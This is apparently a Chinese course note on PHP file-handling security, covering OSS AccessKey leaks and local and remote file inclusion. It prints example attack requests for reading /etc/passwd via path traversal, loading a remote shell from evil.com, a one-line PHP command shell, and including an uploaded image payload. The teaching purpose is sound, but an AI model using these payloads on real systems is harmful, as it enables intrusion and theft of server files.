 Day25安全开发-PHP应用&文件管理&包含&写入&删除&下载&遍历&安全
OSS对象存储
安全问题：AccessKey泄露
原理：
1.	上传到服务器本身的硬盘
2.	借助云产品OSS对象存储去存放文件

安全 问题：文件包含
Include()在错误发生后脚本继续执行
Require()在错误发生后脚本停止运行
Include_once()如果已经包含，则不再执行
Require_once()如果已经包含，则不再执行

文件包含:
可以是带有php代码的文件当作php文件解析。
 
如图，upload.php包含了include($_GET['page']);参数
漏洞原理
1.	动态文件包含机制
PHP 的 include、require 等函数支持动态加载文件路径。如果路径由用户输入直接控制（如 $_GET['page']），攻击者可以篡改参数值，使程序加载非预期的文件。
2.	路径遍历攻击
攻击者可能通过输入类似 ../../etc/passwd 的路径，读取服务器上的敏感文件（如配置文件、日志文件等）。
3.	远程文件包含（RFI）
如果服务器配置中 allow_url_include 选项开启（默认关闭），攻击者可通过 http://evil.com/shell.txt 这样的 URL 加载远程恶意代码，直接执行任意 PHP 代码。
________________________________________
攻击示例
1.	本地文件包含（LFI）
请求：
http://example.com/?page=../../../../etc/passwd
服务器可能返回 Linux 系统的用户账户信息。
2.	远程文件包含（RFI）
请求：
http://example.com/?page=http://evil.com/shell.php
如果允许远程包含，攻击者可在 shell.php 中写入 <?php system($_GET['cmd']); ?>，进而执行系统命令。
3.	结合文件上传漏洞
攻击者上传一个图片马（如 evil.jpg 包含 PHP 代码），然后通过包含此文件执行代码：
http://example.com/?page=./uploads/evil.jpg
 
在地址栏加入非预期加载的内容
